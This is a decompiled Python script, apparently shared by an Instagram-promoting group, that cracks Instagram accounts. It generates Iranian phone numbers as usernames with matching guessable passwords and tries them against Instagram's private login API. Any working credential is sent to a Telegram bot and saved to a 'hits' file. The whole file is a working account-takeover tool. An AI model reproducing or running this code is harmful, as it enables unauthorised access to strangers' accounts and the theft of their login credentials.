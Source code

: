 # encoding: utf-8
# Decoded by HackerModePro tool...
# Copyright: PSH-TEAM
# Follow us on Instagram ( @51u__ )
# Embedded file name: string
import os, webbrowser
webbrowser.open('https://instagram.com/51u__?utm_medium=copy_link')
import sys, requests
os.system('clear')
try:
    import os, sys, random, requests, time, json, secrets, uuid, subprocess
    from bs4 import BeautifulSoup as Alosh
    from uuid import uuid4
    from time import sleep
    import webbrowser
except ImportError as Alosh:
    try:
        os.system('pip install requests')
        os.system('pip install bs4')
    finally:
        Alosh = None
        del Alosh

else:
    Z = '\x1b[1;31m'
    X = '\x1b[1;33m'
    Z1 = '\x1b[2;31m'
    F = '\x1b[2;32m'
    A = '\x1b[2;34m'
    C = '\x1b[2;35m'
    C = '\x1b[1;97m'
    B = '\x1b[2;36m'
    Y = '\x1b[1;34m'
    E = '\x1b[1;31m'
    ali = '                                                   \n  \ انتضر نفحصلك حساب\n '
    print(ali)
    tok = input(Z + '[' + F + '⌯' + Z + ']' + X + 'حط توكنك عشان يوصلك الصيد' + Z + ' :\n' + B)
    ID = input(Z + '[' + F + '⌯' + Z + ']' + X + ' حط ايديك برضو ' + Z + ' :\n' + B)
    os.system('clear')
    sr = 0
    bd = 0
    ht = 0
    ib = 0
    start_msg = requests.post(f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=\n [{ht}] تم تشغيل الادا انتضر يصيدلك حساب انستقرام. تابعني @51u__ ").json()
    id_msg = start_msg['result']['message_id']
    t = time.localtime()
    current_time = time.strftime('%H:%M:%S', t)
    sleep(1)
    w = 'https://pastebin.com/raw/mpWBGQKF'
    rss = requests.get(w).text
    if '' in rss:
        sleep(0.1)
        r = requests.Session()
        user = '0123456789'
        while True:
            us = str(''.join((random.choice(user) for i in range(7))))
            username = '+98913' + us
            password = '0913' + us
            url = 'https://i.instagram.com/api/v1/accounts/login/'
            headers = {'User-Agent':'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)',  'Accept':'/',  'Cookie':'missing',  'Accept-Encoding':'gzip, deflate', 
             'Accept-Language':'en-US', 
             'X-IG-Capabilities':'3brTvw==', 
             'X-IG-Connection-Type':'WIFI', 
             'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8', 
             'Host':'i.instagram.com'}
            uid = str(uuid4())
            data = {'uuid':uid,  'password':password,  'username':username,  'device_id':uid, 
             'from_reg':'false', 
             '_csrftoken':'missing', 
             'login_attempt_countn':'0'}
            req_login = r.post(url, headers=headers, data=data, allow_redirects=True)
            if 'logged_in_user' in req_login.text:
                ht += 1
                tlg = f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text= جبنا لك حساب انستقرام  تابعني @51u__\n☆•━─────━❪ʚĭɞ❫━─────━•☆\n.يوزر [ {username} ]\n.رمز [ {password} ]\n•━─────━❪ʚĭɞ❫━─────━•\n @51u__\n  "
                i = requests.post(tlg)
                with open('insta-hits.txt', 'a') as (HACKED):
                    HACKED.write('{}:{}'.format(username, password))
            elif '"message":"challenge_required","challenge"' in req_login.text:
                ib += 1
                sr += 1
            else:
                os.system('cls' if os.name == 'nt' else 'clear')
                print(f" \n\n\x1b[1;31m--------------------------------\n        ᶜʳᵒʷᵉ\n\x1b[1;31m--------------------------------\n\n          \x1b[1;33m<\x1b[2;32m  استنى يحلو نفحص \\>                                                                                                                                                                \n{E}({X}{username}{E}) {B} ➥ {E}({X}{password}{E})\n{E}-------------------------------\n{E}({X}➥{E}){X}سكيور {E} ➥  {X}{sr}\n{E}({F}➥{E}){F}منيوك{E} ➥  {F}{ht}\n{E}({B}➥{E}){B} الفحص {E} ➥ {B}{bd}\n{E}-------------------------------\n{X}Instagram {E}: {F}\n  @51u__             \n                    ")
                bd += 1

    else:
        ht += 1
